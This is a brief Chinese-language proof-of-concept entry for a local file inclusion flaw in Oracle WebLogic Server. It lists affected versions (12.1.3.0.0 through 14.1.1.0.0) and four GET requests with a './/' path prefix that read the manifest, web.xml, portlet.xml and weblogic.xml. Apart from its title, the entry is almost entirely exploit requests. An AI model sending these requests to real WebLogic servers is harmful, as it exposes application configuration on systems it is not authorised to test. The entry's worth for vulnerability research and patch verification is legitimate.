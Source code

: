 # Oracle WebLogic Server 14.1.1.0.0 -  本地文件包含



## 受影响版本

```txt
12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0
```

## poc

```txt
GET .//META-INF/MANIFEST.MF
GET .//WEB-INF/web.xml
GET .//WEB-INF/portlet.xml
GET .//WEB-INF/weblogic.xml
```